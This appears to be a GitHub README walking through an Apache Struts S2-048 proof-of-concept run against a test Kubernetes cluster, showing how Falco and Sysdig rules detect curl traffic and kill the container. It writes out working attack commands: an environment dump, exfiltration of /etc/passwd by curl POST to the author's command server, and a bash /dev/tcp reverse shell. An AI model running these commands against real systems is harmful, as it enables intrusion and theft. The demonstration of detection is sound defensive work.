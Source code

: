 # struts_poc  
all credit to https://github.com/hook-s3c/apache-struts2-PoC, all I did is add a few things, bring it to life a bit more, EKS, etc.

![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

There are sometimes holes in our runtimes. This is nothing more than good old Kali struts poc rev shell in a k8s cluster. Simple.  
![image](https://user-images.githubusercontent.com/4404271/155650062-66a0d0e0-5091-4dd0-9eb9-cb125d21dddb.png)

`Hints to get this working yourself:`    

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  

#public login to us-west-2 not supported by aws, no worries it's supported in us-east-1 so let's just do it there ;-)  

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  
kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
struts   LoadBalancer   10.100.144.108   12345.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m

`Step 1`  

OK now we can attack, from the attacker "box" (actually just a tmux on my ubuntu box):  

cd ~/apache-struts2-PoC  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'env'  

...and we dump the environment from our struts box, to our attacker "box" and see it on STDOUT... not good!  

KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42
etc..  


`Step 2`  
First, on the cc server, start some simple web server (you can find it in this repo) such as: 

python3 webserver.py  

`Step 3`  

Now let us force our exploitable struts instance to reach out to our webserver like this:  

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl jumpbox.brett1.com:8080/hi_from_inside_the_container_in_our_cluster'

So that is an HTTP GET method. We can imagine, a workload needs to update or get some file, it may be permissable to let it do a GET, but we want to know when this happens.  
So, I wondered if I could modify an existing Falco rule to warn on curl GET? Yes! 
![image](https://user-images.githubusercontent.com/4404271/155773758-cf712d92-c7f1-42e9-913f-d34c5c2fd1b2.png)
![image](https://user-images.githubusercontent.com/4404271/155773836-8430f346-1858-41a6-ac30-5f589bb930da.png)


So, as you can see above, Falco allows us to get granular enough to tell the difference between a curl POST and a curl GET <Borat>very nice!</Borat>  
So, this GET shows up on our little CC web server, and logs in Sysdig Events as a warning about curl, naughty, but I'll allow it, this time!  

![image](https://user-images.githubusercontent.com/4404271/155774031-a30a2755-7851-4cbb-95b3-30c231ab38fd.png)
![image](https://user-images.githubusercontent.com/4404271/155774091-c6d9dcd4-939c-43a7-a981-0128516feace.png)

Here you can see Sysdig agent running in our EKS cluster warns on curl GET, but allows it:  
![image](https://user-images.githubusercontent.com/4404271/155774256-163a9e44-3f0f-41b4-bc9c-3b37e4ef7039.png)

`Step 4`  

OK now with our confidence sky high, through the roof, let's do a curl POST to send the passwd file to our CC server here we go:  
(But first, we must turn off our Sysdig policy to block POST or else we will never see it work)  
![image](https://user-images.githubusercontent.com/4404271/155774448-99285ef4-027f-43a8-b4bc-8712f9540372.png)

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl -d @/etc/passwd jumpbox.brett1.com:8080'

And believe me, that works! We see the passwd file appearing in our CC server.  
![image](https://user-images.githubusercontent.com/4404271/155774611-879cc683-20db-4454-93df-2dab0de3eaab.png)
![image](https://user-images.githubusercontent.com/4404271/155774632-a9f44814-7eb7-4e11-87ed-407cdc604266.png)

OK this is beyond the pale, we cannot allow this.  
So we simply toggle our curl POST policy to ON, this has the Falco rule to fire iif there is a curl POST,  
and has an action to kill the container:  
![image](https://user-images.githubusercontent.com/4404271/155774866-38990415-0101-43f1-a6ab-8090bfd2f1fb.png)

here is that Falco rule - it is identical to the one for the curl GET, just without the NOT negation:  
![image](https://user-images.githubusercontent.com/4404271/155775341-b22453cb-bb5b-4448-9f15-1d79bbe4d170.png)

And it works! The container is killed so quickly, the passwd never shows up on the CC server (I know, I tested it probably a hundred times, and I have a replica set of two apache struts containers behind my LoadBalancer )  
![image](https://user-images.githubusercontent.com/4404271/155775568-61d26d3e-4cfe-4c52-b914-afc3101079b0.png)

Here you see my first instance was selected by the LoadBalancer target group, and also, my second instance.  You can see the restarts and you can see the one instance is in error when I make this screenshot:  

![image](https://user-images.githubusercontent.com/4404271/155775818-dde27d24-5e23-4650-a3ce-d0794628db26.png)

and here you can see, nothing ever appears on my CC server, no passwd file is POSTed:  
![image](https://user-images.githubusercontent.com/4404271/155776198-0e438449-c168-4308-9fc3-38f26b9109f0.png)



`Step 5`  

So now to put the cherry on top, let's do a reverse shell:  
On our CC server let's just listen like so: nc -l 4242  

And then from our attack box let's do it:  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'

And if you like to watch animations here we are:  

![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)

![image](https://user-images.githubusercontent.com/4404271/153435925-60ccd750-ad11-4f80-ad72-e27f01d75e09.png)

![image](https://user-images.githubusercontent.com/4404271/153497163-7b424dc2-3652-4798-9200-1606fd54876f.png)

![image](https://user-images.githubusercontent.com/4404271/153490296-a07fb685-8b04-48bb-8af0-7bff11cc2c21.png)

